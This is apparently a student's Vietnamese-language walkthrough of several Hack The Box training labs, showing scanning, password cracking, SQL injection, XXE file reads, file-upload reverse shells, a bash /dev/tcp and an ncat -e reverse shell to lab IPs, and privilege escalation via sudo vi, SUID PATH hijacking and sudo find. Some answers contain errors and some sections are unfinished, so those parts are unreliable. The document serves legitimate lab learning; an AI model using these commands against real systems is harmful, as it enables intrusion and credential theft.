# Write up

---

## 1. Vaccine

### Task 1: Besides SSH and HTTP, what other service is hosted on this box?

- Ta dùng `nmap` để scan ip `10.129.95.174` bằng lệnh: `nmap 10.129.95.174`


> ftp

### Task 2: This service can be configured to allow login with any password for specific username. What is that username?

- Để xác định dịch vụ nào trên máy mục tiêu có cấu hình cho phép đăng nhập mà không cần mật khẩu hợp lệ, trước tiên tiến hành quét các cổng mở và thu thập thông tin dịch vụ bằng Nmap với bộ script mặc định: `nmap -sC  10.129.95.174`

- Trong kết quả quét, ở cổng 21/tcp xuất hiện:


> Dòng này cho thấy dịch vụ FTP cho phép anonymous login. Nghĩa là có thể đăng nhập bằng tài khoản `anonymous` mà không cần mật khẩu hợp lệ, hoặc dùng mật khẩu bất kỳ.

### Task 3: What is the name of the file downloaded over this service?

- Từ output của task 2, ta tìm được tên file là `backup.zip`


> backup.zip

### Task 4: What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

- Tham khảo: <https://www.kali.org/tools/john/>
- Công cụ đi kèm với John the Ripper để trích xuất dữ liệu từ file ZIP phục vụ bẻ khóa là zip2john, được thể hiện trong tài liệu gói john trên Kali qua cú pháp `Usage: zip2john [options] [zip file(s)]`

> zip2join

### Task 5: What is the password for the admin user on the website?

- Từ kết quả nmap, thấy FTP cho anonymous login và có file `backup.zip`:
  - Dùng lệnh `ftp 10.129.95.174` để thiết lập kết nối.
  - Khi hỏi username thì nhập `anonymous`. Do ở `task 2` ta đã phát hiện username này sẽ đăng nhập được với mọi password.
  - Khi hỏi password thì nhập ngẫu nhiên, ở đây em nhập `anonymous`

- Dùng lệnh `get backup.zip` để tải file về và lệnh `bye` để đóng kết nối.

- Ta tiến hành lấy mã hash từ file zip đó bằng lệnh `zip2john backup.zip > zip.hash`
- Crack mật khẩu zip bằng lệnh `john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt`

=> Mật khẩu là `741852963`
- Tiến hành giải nén bằng lệnh `unzip backup.zip` sau đó nhập mật khẩu vừa tìm được vào.

- Sau đó đọc file `cat index.php`

- Phát hiện password được lưu dưới dạng MD5: `2cb42f8734ea607eefed3b70af13bbd3`
- Ghi hash ra file bằng lệnh `echo '2cb42f8734ea607eefed3b70af13bbd3' > md5.hash`
- Ta lại tiến hành crack bằng wordlist: `john --format=raw-md5 md5.hash --wordlist=/usr/share/wordlists/rockyou.txt`


> Vậy password của admin là qwerty789.

### Task 6: What option can be passed to sqlmap to try to get command execution via the sql injection?

- Link tham khảo: <https://github.com/sqlmapproject/sqlmap/wiki/Usage>

> Đáp án là --os-shell

### Task 7: What program can the postgres user run as root using sudo?

- Link tham khảo: <https://gtfobins.org/gtfobins/vi/>

> Đáp án là vi

### Submit user flag

- Từ đáp án của task 5 thì ta biết tài khoản của admin: `admin/qwerty789`, sau đó đăng nhập vào.

- Từ giao diện của admin gửi một gói tin `GET` để burt suit bắt gói.

- Dán nội dung gói `GET` đó vào file `req.txt`.
- Ta dùng lệnh `sqlmap -r req.txt -p search --batch` để kiểm tra có lộ lỗi sql injection không.


> Từ kết quả ta suy ra được: tham số bị lỗi là `search`, DBMS là `postgre`, Server là Linux, chạy Apache. Quan trọng nhất là `sqlmap` xác định được đến 4 kiểu injection: `boolean-based blind`, `error-based`, `stacked queries` (khá quan trọng, mấu chốt để ta lấy được shell), `time-based blind`.

- Từ đây ta có thể dùng lệnh `sqlmap -r req.txt -p search --batch --os-shell` để lấy shell


> Từ đây ta đã lấy được shell

- Chiếm được shell thì giờ ta đi tìm flag ở thư mục hiện tại, tuy nhiên không có:

- Cứ lần lượt tìm hết các thư mục:


- Tìm đến thư mục `/var/lib/postgresql` thì ta đã tìm được file `user.txt`, sau đó `cat /var/lib/postgresql/user.txt` để mở flag:


> Flag: ec9b13ca4d6229cd5cc1e09980965bf7

### Submit root flag

- Truy cập đến thư mục mức cao nhất là `/var` để xem có thông tin nào có ích không

- Lần lượt dò thử từng thư mục thì thấy thư mục `/var/www/` khả nghi

- Tiếp tục đào sâu vào thư mục `html` được tìm thấy


> Đến đây ta đã xác định được mục tiêu, với các web php, những file chức năng như dashboard.php, config.php, db.php khá nhạy cảm và nên ưu tiên kiểm tra.

- Tuy nhiên lệnh `cat` không hoạt động

- Trên máy cá nhân, mở listener bằng lệnh `nc -lvnp 4444`, tuy nhiên wsl không thể sniff được gói ở hệ điều hành windown nên cần đổi lệnh này cho powershell `& "C:\Program Files (x86)\Nmap\ncat.exe" -lvnp 4444`

- Từ os-shell, gửi reverse shell về máy của mình bằng lệnh `bash -c 'bash -i >& /dev/tcp/10.10.14.124/4444 0>&1'`, ở đây dùng ip `10.10.14.124` vì đang dùng VPN của hackthebox.


> Đã thành công reverse shell

- Từ ô cửa sổ powershell thử lệnh `grep` với tất cả các file để tìm nhanh trong file `dashboard.php` những dòng có chứa `pg_connect` hoặc `password`, tuy nhiên đến lệnh `grep -n "pg_connect\|password" /var/www/html/dashboard.php`  đã tìm thấy.


> Kết quả thấy `user=postgres password=P@s5w0rd!`

- Dùng lệnh `ssh postgres@10.129.7.140` để truy cập vào cơ sở dữ liệu, sau đó nhập mật khẩu `P@s5w0rd!`
- Dùng lệnh `sudo -l` để liệt kê những lệnh mà user hiện tại được phép chạy bằng sudo


> User này được phép chạy `/bin/vi /etc/postgresql/11/main/pg_hba.conf` với quyền root, có thể tận dụng để leo thang đặc quyền

- Gõ `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf` , nhập mật khẩu sau đó gõ:

```vi
:set shell=/bin/sh // Để chọn shell sẽ dùng
```

- Nhấn enter

```vi
:shell // mở shell đó từ bên trong vi
```

- Nhấn enter


> Thành công leo lên quyền root

- Dùng lệnh `cd /root` sau đó `cat root.txt` để lấy flag


> Flag: dd6e058e814260bc70e9bbdef2715849

### Tổng kết kết quả




> Đã hoàn thành challenge vaccine

---

## 2.Unified

### Task 1: Which are the first four open ports?

- Dùng lệnh `nmap 10.129.7.157` để scan port


> 22,6789,8080,8443

### Task 2: What is the title of the software that is running running on port 8443?

- Dùng lệnh `whatweb https://10.129.7.157:8443` để kiểm tra vài thông tin về công nghệ web của 1 trang:


> UniFi Network

### Task 3: What is the version of the software that is running?

- Dùng `whatweb -v https://10.129.7.157:8443` để kiểm tra version


> Tuy nhiên chưa phát hiện version

- Mở hẳn web `https://10.129.7.157:8443` lên browser


> Giao diện web hiện lên cho thấy version 6.4.54

### Task 4: What is the CVE for the identified vulnerability?

- Box có gợi ý lỗ hổng này trong năm 2021

- Gợi ý đáp án thì số cuối là số `8`


> UniFi Network 6.4.54 thuộc nhóm phiên bản bị ảnh hưởng bởi lỗ hổng Log4J. NVD cho biết UniFi Network 6.5.53 trở xuống dính lỗi này và mô tả trực tiếp là Log4J "CVE-2021-44228"

### Task 5: What protocol does JNDI leverage in the injection?

- Box có gợi ý không phải wireshark, chữ cuối là chữ `p`

> tcpdump

### Task 7: What port do we need to inspect intercepted traffic for?

- Box có gợi ý là `Default port for LDAP`



> 636/tcp là LDAP bọc SSL/TLS nên đáp án là 389

### Task 8: What port is the MongoDB service running on?

- Link tham khảo: <https://help.ui.com/hc/en-us/articles/218506997-Required-Ports-Reference>


> 27117

### Task 9: What is the default database name for UniFi applications?

Hầu hết các phiên bản UniFi Controller (hiện nay là UniFi Network Application) đều sử dụng tên database mặc định là ace. Đây là nơi lưu trữ cấu hình thiết bị, thông tin người dùng, các sites và các thiết lập mạng.
> ace

### Task 10: What is the function we use to enumerate users within the database in MongoDB?

Trong cơ sở dữ liệu MongoDB của UniFi, thông tin người dùng quản trị không nằm trong collection users mà nằm trong collection admin. Vì mục tiêu của bài là enumerate users trong database, nên cần dùng hàm find() để liệt kê các document trong collection này.
> db.admin.find()

### Task 11: What is the function we use to update users within the database in MongoDB?

Trong cơ sở dữ liệu MongoDB của UniFi, thông tin người dùng được lưu trong collection admin. Vì vậy, để cập nhật thông tin của một user, hàm được sử dụng là db.admin.update(). Hàm update() cho phép tìm document theo điều kiện và sửa các trường tương ứng trong document đó.
> db.admin.update()

### Task 12

- Từ dữ kiện của các task trước:
  - Web dùng `UniFi Network` version `6.4.54` và bị lỗ hổng `Log4J`
  - Có thể tên database mặc định là ace
  - Có thể liệt kê các document trong collection bằng lệnh `db.admin.find()`

---

## 3. Oopside

### Task 1: With what kind of tool can intercept web traffic?

- 5 kí tự và từ cuối là kí tự `y`

> Proxy

### Task 2: What is the path to the directory on the webserver that returns a login page?

- Dựa vào gợi ý của đáp án thì ta biết đáp án có kí tự cuối là `n`
- Bật chế độ `inspect` của browser, vào tab `source`  và reload lại trang:


> /cdn-cgi/login

### Task 3: What can be modified in Firefox to get access to the upload page?

- Ban đầu em có nghĩ đến `url` tuy nhiên là kết quả sai
- Ở phần gợi ý của task này có đề cập: Máy chủ web sử dụng thành phần nào để theo dõi người dùng trong suốt phiên truy cập?


> cookie

### Task 4: What is the access ID of the admin user?

- Ở task 2 ta đã biết có một thư mục lạ là `/cdn-cgi/login`, vậy nên hãy thử GET nó bằng lệnh `http://10.129.95.191/cdn-cgi/login/`


> Một giao diện đăng nhập đã hiện lên

- Ở giao diện này thì cho phép đăng nhập với tư cách khách, ý tưởng là mở burp suite lên để xem gói tin gửi đi lúc đăng nhập có gì đặc biệt:


> Gói tin gửi đi chỉ là giao thức POST và gửi những thông tin đăng nhập cơ bản chứ chưa có gì đặc biệt

- Đang bế tắc thì có thử gửi lại một gói tin yêu cầu đăng nhập với tư cách khách. Tuy nhiên thay vì gửi gói tin post như cũ thì lần này lại gửi gói tin GET:


- Ở gói tin GET này có nhiều tham số đặc biệt, ý tưởng là sửa `guest=false`, `role=admin` và brute force phần `user=x` với x thử chạy từ 1111 đến 2233 bằng công cụ intruder của burp suite để xem có gì đặc biệt không
- Tuy nhiên sau khi chạy thử thì không thu được gì nên trở lại quan sát trang với tài khoản guest
- Ở trang giao diện vào mục `Account` thì trang chuyển hướng sang `http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2`

- Thử sửa URL thành `id=1` thì đã thu được kết quả:


> 34322

### Task 5: On uploading a file, what directory does that file appear in on the server?

- Ý tưởng ban đầu là vào mục upload để upload thử một file bất kì sau đó quan sát kết quả trả về.


> Tuy nhiên để upload được thfi phải là tài khoản admin

- Nghĩ đến cách dùng tool để brute force và phần gợi ý của task 5 cũng đề xuất làm như vậy:


- Dùng lệnh `gobuster dir -u http://10.129.95.191 -w "E:\ctf\SecLists\Discovery\Web-Content\common.txt"` (Do em đã tải rockyou về máy cá nhân nên path của file commont.txt có thể hơi khác)


> Từ output này có thể đoán ra đáp án là /uploads

### Task 6: What is the file that contains the password that is shared with the robert user?

- Ở câu này em có dùng lại ý tưởng của câu 4 đó là sửa tham số `id` của url ở các tab `Account`, `Branding`, `Client`, tuy nhiên không tìm được thông tin nào liên quan đến robert:

- Phát hiện ra đã có `userID` của admin là `34322`, ta có thể lặp lại ý tưởng ở task 4 là sửa gói tin GET thử xem sao:


> Tuy nhiên sau khi sửa thì cũng trả về với account khách

- Em thử chèn tương tự nhưng đối với tab `upload` (lần trước bị vướng ở tab này do là tab này cần quyền admin nên giờ sửa cookie thử xem có bypass được không):

- Kết quả là đã bypass được:

- Ở tab này thì cho up file lên server nên có ý tưởng là dùng PHP reverse shell:
  - Bật listener trên máy cá nhân: `
  - Soạn mẫu reverse shell php cơ bản
  - Gửi file reverse với các tham số đã chỉnh sửa

- Mở file bằng lệnh:



> Kết quả cho thấy ta đã revershell thành công

- Shell ban đầu đang bị chút vấn đề gì đó, ta cần ổn định shell:

```powershell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

- Sau khi ổn định thì ta ra root để nhìn toàn cảnh trang web:


> Chỉ mấy thư mục mà nãy giờ ta đã đề cập

- Tìm pass thì thư mục `cd /var/www/html/cdn-cgi/login` là khả nghi nhất:


> File db.php có khả năng cao có đáp án cần tìm

- Dùng lệnh cat`db.php` để mở file


> Ta đã tìm được password của robert là "M3g4C0rpUs3r!", vậy nên đáp án là "db.php"

### Task 7: What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

- Không hiểu câu hỏi lắm nên xem thử gợi ý của đề:

- Lúc này em nghĩ đến 2 phương án là `grep` và `find`
- Tuy nhiên lệnh có đi kèm option `-group` và phần đáp án gợi ý có từ cuối là `d`

> find

### Task 8: Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

- Link tham khảo: <https://www.redhat.com/en/blog/suid-sgid-sticky-bit>
- Khi một tệp có bit SUID, hệ thống sẽ bỏ qua quyền của người dùng hiện tại và thực thi tệp đó với quyền của Owner (Chủ sở hữu). Vì chủ sở hữu của bugtracker trong bài Lab là root, nên nó chạy với quyền root

- Ngoài ra đáp án cũng gợi ý chữ cuối là chữ `t`

> root

### Task 9: What SUID stands for?

- Link tham khảo: <https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-1-using-suid-bit-QpmlexgrZrd>

> Set owner User ID

### Task 10: What is the name of the executable being called in an insecure manner?



- `bugtracker` chạy với quyền root, mà giờ nó tham chiếu tới `cat` và `cat /root/reports/` (Không có đường dẫn tuyệt đối `/bin/cat`) không an toàn vì nó phụ thuộc vào biến môi trường PATH

> cat

### Task 11: Flag user?

- Sau khi có được password của user `Robert` ở task 6, ta đăng nhập vào user `Robert`
- Và ta đã tìm được flag ở thư mục home của user `Robert`:


> f2c74ee8db7983851ab2a96a44eb7981

### Task 12: Root flag?

- Từ những task trước gợi ý cho ta khai thác `PATH hijacking` với binary SUID `bugtracker`
- Đầu tiên cứ đi kiểm tra user với các quyền liên quan:


> Robert thuộc group bugtracker.

- Ở task 8 ta đã biết binary bugtracker có SUID bit và thuộc sở hữu của root, nên bất kỳ user nào thực thi file này cũng sẽ chạy nó với quyền root
- Ở task 10 ta phát hiện lệnh cat được gọi 1 cách không an toàn, nếu chèn PATH thì hoàn toàn có thể chiếm quyền
- Ý tưởng:
  - Tạo file giả tên `cat`
  - File này spawn shell với quyền giữ nguyên đặc quyền (bash -p)
  - Thêm thư mục chứa file giả đó lên đầu biến PATH
  - Chạy `bugtracker` thì nó sẽ gọi `cat` và nó sẽ chạy file giả với quyền `root`
- Tạo file cat:

```powershell
cd /tmp
printf '#!/bin/sh\n/bin/bash -p\n' > cat
chmod +x cat
export PATH=/tmp:$PATH
```

- Chạy `/usr/bin/bugtracker`


> Sau bước nay đã thấy shell đã thành quyền root

- Sau đó lưu ý là phải dùng lệnh `/bin/cat /root/root.txt`, lúc đầu em cũng nhầm gọi lệnh `cat /root/root.txt` thì không hiện flag do gọi lại fake `cat` do em vừa tạo ra:


> af13b0bee69f8a877c3faf667f7beacf

### Tổng kết kết quả






---

## 4. Archetype

### Task 1: Which TCP port is hosting a database server?

- Link tham khảo: <https://www.mssqltips.com/sqlservertip/2495/identify-sql-server-tcp-ip-port-being-used/>

> 1433

### Task 2

---

## 5. Markup

### Task 1: What version of Apache is running on the target's port 80?

- Dùng nmap scan bằng lệnh `nmap -Pn -sT -sV -p 80 10.129.95.192`:


> 2.4.41

### Task 2: What username:password combination logs in successfully?

- Sau một vòng kiểm tra các mục trong `inspect` thì không thấy gì đặc biệt
- Xem gợi ý thì tác giả có gợi ý cặp username:password này là phổ biến:

- Có ý tưởng dùng burp suite brute force những cặp phổ biến được đề cập trong rockyou
- Cụ thể:
  - username dùng `SecLists\Usernames\top-usernames-shortlist.txt`
  - password dùng `SecLists\Passwords\Common-Credentials\2025-199_most_used_passwords.txt`
  - Chọn kiểu tấn công `Cluster bomb` để thử mọi tổ hợp

- Đã tìm được cặp thỏa mãn là `admin:password`


> admin:password

### Task 3: What is the word at the top of the page that accepts user input?

- Giao diện web sau khi đăng nhập bằng tài khoản tìm được ở task 2:

- Đi dò thử các mục thì thấy tab `Oder` cho người dùng nhập vào:


> order

### Task 4: What XML version is used on the target?

- Lần lượt kiểm tra nguồn trang của các mục nhưng không tìm thấy ghi chú version
- Vậy nên ta thử `POST` một gói tin đăng nhập và dùng burp suite bắt lại nhưng vẫn không có gì đặc biệt:



> Cả gói tin `POST` và gói tin `GET` sau đó đều không chứa version của XML

- Tuy nhiên trang oder cũng có thể POST, em thử bắt gói tin POST ở tab `order` thì đã thu được version:


> 1.0

### Task 5: What does the XXE / XEE attack acronym stand for?



> XML external entity

### Task 6: What username can we find on the webpage's HTML code?

- Lần lượt kiểm tra source của page, đến tab `order` thì tìm thấy:


> Daniel

### Task 7: What is the file located in the Log-Management folder on the target?

- Dùng thử `gubuster` để quét các thư mục thông dụng nhưng không tìm được gì đặc biệt:

- Ở task 4 ta đã biết dữ liệu được gửi với dạng XLM, gợi ý cho ta tấn công XXE
- Gửi đi 1 gói tin order và dùng burp suite để bắt lại:


- Thử đọc 1 tệp phổ biến trên hệ điều hành linux bằng cách chèn lệnh `<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>`:


> Server không có tệp này, khả năng cao là window

- Tuy nhiên giờ ta cần xác định hệ điều hành của server để chèn lệnh hợp lí, em dùng nmap để scan:


> Đến đây đã xác nhận được hệ điều hành chạy window

- Ở task 6 ta đã xác định được có user tên daniel nên thử chèn đoạn lệnh này vào `<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>` để tìm `rsa key` ở thư mục thường thấy ở win:


> Đã tìm được key của user Daniel

- Ta chép key ra file và dùng nó để kết nối với ssh của user Daniel: `ssh -i rsa_key daniel@10.129.95.192`


> Đã đăng nhập được vào shell của Daniel

- Kiểm tra các thư mục của tài khoản này:


- Ta vô tình tìm được flag của task sau ở thư mục desktop:


> Lấy luôn task sau khỏi phải tìm, flag là: 032d2fc8952a8c24e39c8f0ee9918ef7

- Tuy nhiên ở thư mục hiện tại thì chưa tìm thấy thư mục `Log-Management`, thử tìm trong ổ `C`:


> Đã tìm thấy: job.bat

### Task 8: What executable is mentioned in the file mentioned before?

- Kiểm tra nội dung file `job.bat` vừa tìm được:


> wevtutil.exe

### User flag?

- Đã vô tình tìm được ở task 7

> 032d2fc8952a8c24e39c8f0ee9918ef7

### Root flag

- Kiểm tra quyền của `job.bat` thì nó chạy được ở full quyền, nếu chèn lệnh vào đây thì nó sẽ chạy với quyền cao nhất:


> Ý tưởng là dùng Netcat để tạo reverse shell

- Mở port để chờ `ncat -lvnp 4444`
- Thử `nc64.exe` từ GitHub về máy mục tiêu:


> Có vẻ máy mục tiêu không ko có kết nối internet

- Vậy cần mở 1 server để máy mục tiêu kết nối vào:


- Giờ chỉ cần tải `ncat` lên máy mục tiêu:


> Đã tải lên thành công

- Giờ chèn lệnh vào `job.bat` để máy mục tiêu dùng ncat và kết nối vào cổng mà ta đã mở sẵn: `echo C:\Log-Management\ncat.exe -e cmd.exe 10.10.16.76 4444 > C:\Log-Management\job.bat`
- Tuy nhiên sau một lúc không thấy shell thì em mở `dob.bat` lên kiểm tra thì thấy lệnh chưa được chèn:

- Em xóa hẳn file đó để tạo file mới:

```cmd
del job.bat
echo C:\Log-Management\ncat.exe -e cmd.exe 10.10.16.76 4444 > job.bat
```

- Không hiểu sao với ncat thì không chiếm được shell mặc dù bên server đã thật sự có tiến trình `ncat`, vậy nên em đổi qua dùng `nc64.exe` thì đã chiếm được:



- Việc còn lại chỉ là đi tìm root flag:


> f574a3e7650cebd8c39784299cb570f8

### Tổng kết kết quả





---

## 6. Base

### Task 1: Which two TCP ports are open on the remote host?

- Dùng nmap để scan:


> 22, 80

### Task 2: What is the relative path on the webserver for the login page?

- Bấm vào button `login` và kiểm tra URL:


> /login/login.php

### Task 3: How many files are present in the '/login' directory?

- Dùng chức năng `inspect` của browser và reload lại trang `login`, nhìn vào phần `source`:



- Thấy được 1 file `login.php` tuy nhiên nó là đáp án sai
- Thử query `http://10.129.10.23/login/` thì đã có kết quả:


>3

### Task 4: What is the file extension of a swap file?

- Link tham khảo: <https://www.computerhope.com/jargon/s/swapfile.htm>
- web có đề cập các đuôi của swap file:

- Từ task 3 thì ta thấy được file khả nghi là `login.php.swp`:


> .swp

### Task 5: Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password?

- Đề có gợi ý:

- Lần lượt kiểm tra các file và đến file `login.php.swp` thì tìm ra đáp án:


> strcmp()

### Task 6: In which directory are the uploaded files stored?

- Dùng gobuster để dò các thư mục với word list `common`:


> Chưa có kết quả

- Tuy nhiên ở Task 3 ta đã phát hiện web dùng `apache` nên ta dùng wordlist `Apache.txt` để dò thử:


> Cũng không có kết quả

- Quay lại thfi lấy đáp án có dạng `/_...` nên ta tạo file mới gắn dấu `_` vào trước các kí tự của wordlist `common.txt` và quét lại:


> Đã tìm được: /_uploaded

### Task 7: Which user exists on the remote host with a home directory?

- Để hoàn thành được task này thì ta cần đăng nhập với quyền user hoặc root
- Ở task 5 ta đã biết server `strcmp()` để so khớp username và password, ta có thể dùng burp suite để chặn gói tin đăng nhập và sửa payload:

- Giải thích:
  - Khi gửi username[], PHP sẽ coi đó là một mảng thay vì một chuỗi. Khi so sánh một mảng với một chuỗi bằng strcmp(), hàm này sẽ trả về giá trị NULL
  - Server dùng `==` để kiểm tra kết quả của `strcmp()` có bằng `0` hay không
  - Trong PHP, giá trị `NULL == 0` trả về kết quả là `TRUE`
- Vào được trang upload thì sử dụng mẫu file `php` để reverse shell thường dùng để tải lên server
- Mở port 1234 để lắng nghe
- Sau khi upload file `rev.php` lên server thì GET để chạy file:



> Đã reverse thành công

- Shell ban đầu đang bị chút vấn đề gì đó, ta cần ổn định shell:

```powershell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

- Sau khi đi khám phá một chút thì phát hiện account ẩn trong `config.php` mà ở các task trước ta chưa xem được:

  - username = "admin";
  - password = "thisisagoodpassword"
  
- Tuy nhiên đến đây vẫn chưa tìm được đáp án cho task này, ta ra ngoài thư mục `/home` để kiểm tra:


> Đáp án task này là "John"

- Đã tìm thấy `user flag` ở thư mục `home/john/` nhưng thử mở thì không có quyền:


### Task 8: What is the password for the user present on the system?

- Đáp án vô tình tìm được ở task 7

> thisisagoodpassword

### Task 9: What is the full path to the command that the user john can run as user root on the remote host?

- Thử đăng nhập ssh (Ở task 1 ta đã biết server có mở cổng cho ssh) bằng tài khoản admin vô tình tình được ở task 7 nhưng phát hiện mật khẩu đó là sai:

- Và cũng đã thăm dò hết các thư mục có thể tìm nhưng không tìm ra password nào khác
- Suy ra có thể mật khẩu đó là của tài khoản `John`:


> Password đó đúng là của John

- Từ shell của John ta có thể tìm được đáp án:


> /usr/bin/find

### Task 10: What action can the find command use to execute commands?

- Link tham khảo: <https://unix.stackexchange.com/questions/389705/understanding-the-exec-option-of-find>

> exec

### User flag?

- Ta đã tìm được vị trí của flag là `home/john/` ở task 7:


> f54846c258f3b4612f78a819573d158e

### Root flag

- Ta đã phát hiện lệnh `find` chạy được với quyền root, vậy nên ta chỉ cần dùng lệnh find để gọi shell thì shell đó cũng chạy ở quyền root:


> 51709519ea18ab37dd6fc58096bea949

### Tổng kết kết quả





